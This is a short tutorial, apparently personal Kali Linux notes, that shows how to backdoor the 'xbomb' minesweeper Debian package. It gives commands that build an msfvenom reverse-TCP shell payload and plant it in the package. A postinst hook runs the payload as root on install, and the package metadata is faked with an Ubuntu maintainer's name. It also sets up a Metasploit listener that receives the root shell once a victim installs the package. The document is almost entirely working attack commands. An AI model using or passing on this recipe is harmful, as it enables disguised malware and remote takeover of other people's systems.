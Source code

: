 ```yaml
---
title: Kali Linux: Reverse TCP (Linux)
---
```


# Kali Linux: Reverse TCP (Linux)

An example to hack a 64-bit debian system using `msfvenom` on Kali Linux.

1. Download a `.deb` installation file (like `xbomb_2.2a-1_i386.deb`).

2. Extract it

   ```shell
   $ dpkg -x xbomb_2.2a-1_i386.deb workdir
   ```

3. Now, in `workdir` there are two directories `usr` and `etc`, which will be copied to the system if installed. In `usr` there is a file `game/xbomb` which is an executable file.

4. Generate the payload with `msfvenom`.

   ```shell
   $ msfvenom -a x64 --platform linux -p linux/x64/shell/reverse_tcp LHOST=192.168.15.5 LPORT=443 -b "\x00" -f elf -o ./workdir/usr/games/xbomb_scores
   ```

5. Create directory `DEBIAN` and two files `postinst` and `control`.

   ```shell
   $ mkdir workdir/DEBIAN
   $ cat > workdir/DEBIAN/postinst << END
   #!bin/sh

   sudo chmod 2755 /usr/games/xbomb_scores && sudo /usr/games/xbomb_scores &
   END
   $ cat > workdir/DEBIAN/control << END
   Package: xbomb
   Version: 2.2a-1
   Section: games
   Priority: optional
   Architecture: amd64
   Maintainer: Ubuntu MOTU Developers <ubuntu-motu@lists.ubuntu.com>
   Description: A minesweeper game for Linux
   END
   ```

6. Create new debian package.

   ```shell
   $ dpkg-deb --build workdir
   $ mv workdir.deb xbomb_2.2a-1_x64.deb
   ```

7. Open an `msfconsole`, and open a `reverse_tcp` handler.

   ```shell
   $ msfconsole
   msf > use exploit/multi/handler
   msf > set PAYLOAD linux/x64/shell/reverse_tcp
   msf > set LHOST 192.168.15.5
   msf > set LPORT 443
   msf > run
   ```

8. Put the package in the victim machine and install it.

   ```shell
   $ sudo dpkg -i xbomb_2.2a-1_x64.deb
   ```

9. Then you will see the `msfconsole` get the session for command shell, with root previlege.
